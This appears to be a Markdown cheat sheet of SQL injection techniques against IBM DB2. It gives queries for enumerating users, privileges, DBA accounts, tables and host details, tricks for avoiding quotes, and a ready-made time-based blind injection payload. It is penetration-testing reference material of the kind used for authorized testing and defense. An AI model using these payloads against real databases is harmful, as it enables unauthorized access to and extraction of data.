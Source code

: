 # DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments. 

## Summary

* [DB2 Cheatsheet](#db2-cheatsheet)
* [References](#references) 


## DB2 Cheatsheet

### Version

```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### Comments	

```sql
select blah from foo -- comment like this (double dash)
```

### Current User

```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
```

### List Users

DB2 uses OS accounts

```sql
select distinct(authid) from sysibmadm.privileges -- priv required
select grantee from syscat.dbauth -- incomplete results
select distinct(definer) from syscat.schemata -- more accurate
select distinct(grantee) from sysibm.systabauth -- same as previous
```

### List Privileges

```sql
select * from syscat.tabauth -- shows priv on tables
select * from syscat.tabauth where grantee = current user -- shows privs for current user
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
```

### List DBA Accounts	

```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
```

### Current Database	

```sql
select current server from sysibm.sysdummy1
```

### List Databases

```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

### List Columns

```sql
select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
```

### List Tables

```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

### Find Tables From Column Name	

```sql
select tbname from sysibm.syscolumns where name='username'
```

### Select Nth Row

```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

### Select Nth Char	

```sql
select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
```

### Bitwise AND/OR/NOT/XOR

```sql
select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
```

### ASCII Value

```sql
Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
```

### Char -> ASCII Value	

```sql
select ascii('A') from sysibm.sysdummy1 -- returns 65
```

### Casting

```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

### String Concat

```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
```


### IF Statement
Seems only allowed in stored procedures. Use case logic instead.

### Case Statement

```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```


### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
```

### Time Delay

Heavy queries, for example: If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 
However, if user doesn't start with ascii 68, the heavy query won't execute and thus the response will be faster.
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

### Serialize to XML (for error based)

```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
```

### Command Execution and Local File Access

Seems it's only allowed from procedures or UDFs.

### Hostname/IP and OS INFO

```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
```

### Location of DB Files

```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
```

### System Config

```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.
```

### Default System Database

* SYSIBM
* SYSCAT
* SYSSTAT
* SYSPUBLIC
* SYSIBMADM
* SYSTOOLs


## References

- [DB2 SQL injection cheat sheet - Adrián - May 20, 2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
- [Pentestmonkey's DB2 SQL Injection Cheat Sheet - @pentestmonkey - September 17, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)